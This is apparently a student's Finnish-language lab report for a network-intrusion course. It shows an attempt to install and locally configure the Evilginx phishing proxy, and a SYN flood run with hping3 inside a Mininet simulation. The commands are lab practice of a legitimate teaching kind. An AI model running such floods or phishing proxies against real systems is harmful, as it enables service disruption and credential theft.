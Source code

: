 # H4 RFID

## a) Evilginx2 

### Asenus

Aloitin asenuksen tarkastamalla että minulla on virtuaalikoneella dependenssit asennettuna. 

```go version```

![a1](https://github.com/user-attachments/assets/623e3880-3a14-4a3b-846d-efc0a9733f96)

```git --version```

![a2](https://github.com/user-attachments/assets/00023a35-b6e9-4537-be04-85ae520df4fd)

```make --version```

![a3](https://github.com/user-attachments/assets/a8913a6a-f1ab-460b-9c38-d938deada35a)

```gcc --version```

![a4](https://github.com/user-attachments/assets/7f58aec9-c11a-4a0a-ab62-0547e4d1f21a)

Tämän jälkeen kloonassin [evilginx repon](https://github.com/kgretzky/evilginx2)

```git clone https://github.com/kgretzky/evilginx3.git```

![a5](https://github.com/user-attachments/assets/b20659b8-0bed-4ec8-bc28-bb70961218a7)

Siirryin kloonatun repon kansioon ja kompilasin evilginx:n.

```cd evilginx2```

```make```

![a6](https://github.com/user-attachments/assets/b1e28e5c-96bb-46e1-a1fe-a1455037f696)

Siirryin ```build``` -kansioon ja käynnistin evilginxin. 

```cd build```

```sudo ./evilginx```

<img src="https://github.com/user-attachments/assets/a278a7b9-5055-43ce-8676-627ad4bf7069" width="500"> <br/>

### Evilginx konfiguraatio

Tämän jälkeen halusin konfiguroida evilginxin lokaalille MITM hyökkäykselle. Aloitin lisäämällä ```/etc/hosts``` -tiedostoon feikkidomainia varten ohjauksen

```echo "127.0.0.1   local.example.com" | sudo tee -a /etc/hosts```

Tämän jälkeen loin kansion sertifikaatille ja loin sertifikaatin. Sertifikaatin luonnissa täytin vain common name kohtaan halutun domainin nimen

```mkdir certificates```

```cd certificates```

```openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes```

Asetin evilginxille phislettien sijainnin. 

```sudo ./evilginx -p /home/tunkt/evilginx2/phishlets```

En saanut evilginxiä tästä vaiheesta enää konfiguroitua pidemmälle. Ymmärtääkseni repossa on vain evilginx3, joka ei tue natiivisti lokaalia ajoa. 


b) Mininet SYN flood

Aloitin luomalla mininet topologian. 

```sudo mn --topo single,2 --mac --switch ovsk --controller remote```

![c1](https://github.com/user-attachments/assets/7431e6ed-c984-4413-8b4f-051032e93446)

Tarkastin sen jälkeen vielä luodun verkon. 

```nodes```

![c2](https://github.com/user-attachments/assets/a1899bad-3a90-4b40-be63-d432d18ff8a0)

Lopuksi laukaisin SYN flood hyökkäykssen h1:ltä h2:lle. 

```h1 bash```

```hping3 -S --flood -p 80 10.0.0.2```

![c3](https://github.com/user-attachments/assets/2704b9d1-806f-4f0b-a616-04d657dab441)

Lopetin hyökkäyksen lopuksi CTRL+C:llä. 



## Lähteet
Iso-Anttila, L. 2025. Haaga-Helia Moodle. Verkkoon tunkeutuminen ja tiedustelu - ICI013AS3A-3001 / 5. Laboratorio- ja simulaatioympäristöt hyökkäyksissä
https://hhmoodle.haaga-helia.fi/course/view.php?id=42566&section=1#tabs-tree-start    
Tehtävänanto.    

GitHub. s.a. Evilginx 3.0.    
https://github.com/kgretzky/evilginx2    
Tehtävä 1.    

Mininet Walkthrough. s.a. Mininet Walkthrough.     
https://mininet.org/walkthrough/    
Tehtävä 2.    
